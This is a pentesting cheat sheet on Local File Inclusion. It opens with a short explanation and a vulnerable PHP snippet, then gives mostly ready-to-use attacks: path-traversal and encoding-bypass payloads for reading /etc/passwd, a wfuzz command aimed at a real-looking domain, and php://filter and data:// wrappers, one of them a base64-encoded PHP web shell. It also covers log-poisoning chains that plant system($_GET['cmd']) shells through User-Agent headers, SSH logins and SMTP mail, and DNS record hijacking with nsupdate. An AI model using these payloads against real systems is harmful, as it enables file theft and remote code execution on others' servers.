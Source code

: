 # LFI

## Local File Inclusions (LFI)

<details>

<summary>What is LFI ?</summary>

An attacker can use **Local File Inclusion** (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even XSS.

Typically, LFI occurs when an application uses the **path to a file as input**. If the application treats this input as trusted, a local file may be used in the include statement.

</details>

### Check for LFI

The following is an example of **PHP code that is vulnerable to LFI**.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

* **GET** parameter in url

{% embed url="https://github.com/kurobeats/fimap" %}
Tool to check LFI
{% endembed %}

### Payloads

```
http://example.com/index.php?page=../../../etc/passwd
http://example.thm.labs/page.php?file=/etc/passwd 

# NULL BYTE
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 

# FILTER BYPASS TRICKS
http://example.com/index.php?page=....//....//etc/passwd
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# DOUBLE ENCODING
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 ENCODING
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

#### FUZZ LFI ENDPOINTS

```bash
wfuzz -c -w list-lfi.txt --hc 404,400 --hw 0 https://metabase.peren.fr/api/geojson?url=file:///FUZZ
```

### PHP Wrapper

* Used to read **.PHP files**. It is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. We can use the PHP filter to display the content of PHP files in other encoding formats such as base64 or ROT13.

**Commands**

```
http://example.com/page.php?file=php://filter/resource=/etc/passwd

http://example.com/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd

http://example.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

## LFI 2 RCE

### /proc/self/environ

> Like a log file :

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via Apache Log Files

```bash
# /var/log/apache2/access.log
# set inside the user agent or inside a GET parameter a php shell like :
<?php system($_GET['cmd']); ?>
# same for /proc/self/environ
```

### via SSH

```bash
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
# Then include the SSH log files inside the Web Application :
# http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### via MAIL

> First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.

```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

> In some cases you can also send the email with the mail command line.

```bash
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### Via DNS

> Check for :&#x20;
>
> ```
> /etc/bind/named.conf
> ```

**Change the DNS record via nsupdate**

```bash
nsupdate
> server $ip_target $port_dns_target
> key $key_algorithm:$name_key $secret
> zone $dns_name
> update add mail.$target_domain 86400 A $ip_host
> send

# start python smtpd server to receive mail
python3 -m smtpd -c DebuggingServer -n $ip_host:25
```
